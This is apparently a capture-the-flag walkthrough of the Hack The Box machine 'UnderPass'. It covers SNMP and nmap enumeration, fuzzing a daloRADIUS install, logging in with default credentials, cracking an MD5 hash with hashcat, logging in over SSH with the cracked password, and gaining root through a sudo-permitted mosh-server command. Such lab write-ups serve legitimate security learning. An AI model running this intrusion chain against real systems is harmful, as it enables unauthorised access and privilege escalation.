

# UnderPass - HTB

# Enumeration

## Nmap scan

First I start with a scan of the top 100 UDP ports. 

```bash
nmap -sU -vv -T4 --top-ports 100 10.10.11.48
```

```bash
PORT      STATE         SERVICE     REASON
19/udp    open|filtered chargen     no-response
67/udp    open|filtered dhcps       no-response
111/udp   open|filtered rpcbind     no-response
137/udp   open|filtered netbios-ns  no-response
161/udp   open          snmp        udp-response ttl 63
427/udp   open|filtered svrloc      no-response
1025/udp  open|filtered blackjack   no-response
1028/udp  open|filtered ms-lsa      no-response
1646/udp  open|filtered radacct     no-response
1812/udp  open|filtered radius      no-response
1813/udp  open|filtered radacct     no-response
9200/udp  open|filtered wap-wsp     no-response
30718/udp open|filtered unknown     no-response
32769/udp open|filtered filenet-rpc no-response

```

## SNMP(161)

### SNMP Enumeration

Enumeration with `msfconsole` using `auxiliary/scanner/snmp/snmp_enum` auxiliary.

```bash
msf6 > use auxiliary/scanner/snmp/snmp_enum
msf6 auxiliary(scanner/snmp/snmp_enum) > show options 

Module options (auxiliary/scanner/snmp/snmp_enum):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMUNITY  public           yes       SNMP Community String
   RETRIES    1                yes       SNMP Retries
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      161              yes       The target port (UDP)
   THREADS    1                yes       The number of concurrent threads (max one per host)
   TIMEOUT    1                yes       SNMP Timeout
   VERSION    1                yes       SNMP Version <1/2c>

View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/snmp/snmp_enum) > set rhosts 10.10.11.48
rhosts => 10.10.11.48
msf6 auxiliary(scanner/snmp/snmp_enum) > run

```

The result is

```bash
Host IP                       : 10.10.11.48
Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Contact                       : steve@underpass.htb
Location                      : Nevada, U.S.A. but not Vegas
Uptime snmp                   : 02:19:12.69
Uptime system                 : 02:19:00.95
System date                   : 2025-1-17 23:08:11.0

```

Now I retried the Nmap scan

## Nmap scan (again)

Now I found two open ports:

- 22 for SSH
- 80 for HTTP

```bash
nmap -T4 -sV -sC -vvv -p- underpass.htb 
```

```bash
PORT   STATE SERVICE REASON         VERSION

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
|   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## SSH(22)

- SSH password authentication is enabled

```bash
[zerodol@master] ~  
❯ ssh root@underpass.htb 
The authenticity of host 'underpass.htb (10.10.11.48)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'underpass.htb' (ED25519) to the list of known hosts.
root@underpass.htb's password: 
```

## HTTP(80)

### Dirsearch

In the result of the SNMP enumeration there is a hint `UnDerPass.htb is the only daloradius server in the basin!` When I searched for **daloradius server** in google there is this website that gives us more information [https://debian-facile.org/doc:reseau:web:freeradius](https://debian-facile.org/doc:reseau:web:freeradius).

Now I can fuzz the daloradius server.

```bash
dirsearch -u http://underpass.htb/
```

```bash
[00:28:26] Starting: daloradius/
[00:28:28] 200 -  221B  - /daloradius/.gitignore                            
[00:28:36] 301 -  323B  - /daloradius/app  ->  http://underpass.htb/daloradius/app/
[00:28:38] 200 -   24KB - /daloradius/ChangeLog                             
[00:28:41] 301 -  323B  - /daloradius/doc  ->  http://underpass.htb/daloradius/doc/
[00:28:41] 200 -    2KB - /daloradius/Dockerfile                            
[00:28:41] 200 -    2KB - /daloradius/docker-compose.yml
[00:28:46] 301 -  327B  - /daloradius/library  ->  http://underpass.htb/daloradius/library/
[00:28:46] 200 -   18KB - /daloradius/LICENSE                               
[00:28:52] 200 -   10KB - /daloradius/README.md                             
[00:28:54] 301 -  325B  - /daloradius/setup  ->  http://underpass.htb/daloradius/setup/

```

I continued the directory fuzzing on the `/app`.

```bash
dirsearch -u http://underpass.htb/daloradius/app/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

```bash
[00:32:23] Starting: daloradius/app/                                                                                                             
[00:32:37] 301 -  330B  - /daloradius/app/common  ->  http://underpass.htb/daloradius/app/common/
[00:32:59] 301 -  329B  - /daloradius/app/users  ->  http://underpass.htb/daloradius/app/users/
[00:33:46] 301 -  333B  - /daloradius/app/operators  ->  http://underpass.htb/daloradius/app/operators/
[00:33:59] 302 -    0B  - /daloradius/app/users/  ->  home-main.php         
[00:34:37] 200 -    2KB - /daloradius/app/users/login.php
```

### Website Features

We have a login form on the `/daloradius/app/users/login.php` web page



I tried the default credentials `adminstrator:radius` but it didn’t work

Now I go to the `/daloradius/app/operator` and we’re redirected to another login form


Here I tried the default credentials `administrator:radius` and it worked. We’re logged in.


We have a user and a MD5 hash on `Management > Users > List Users` 

```
USER : svcMosh
HASH : 412DD4759978ACFCC81DEAB01B382403
```


We can crack the password using `hashcat`.

```bash
hashcat -m 0 svcmosh-hash.txt /usr/share/wordlists/rockyou.txt
```

And boom we have the password : `underwaterfriends` 

# Post Exploitation

## Shell as svcMosh

With our credentials we can access the target via SSH

```
USER : svcMosh
PASSWORD : underwaterfriends
```


## Sudo Privileges

We check our privileges and see that we can execute `/usr/bin/mosh-server` without a password.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

## Shell as root

I searched for mosh-server privilege escalation and found an interesting medium web page :  https://medium.com/@Chandravarma.Hattaraki/privilege-escalation-using-linpeas-1ecbd6029387

All we have to do is to execute this following command

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

And boom we’re root. We can retrieve the root flag in the `/root/root.txt` file.

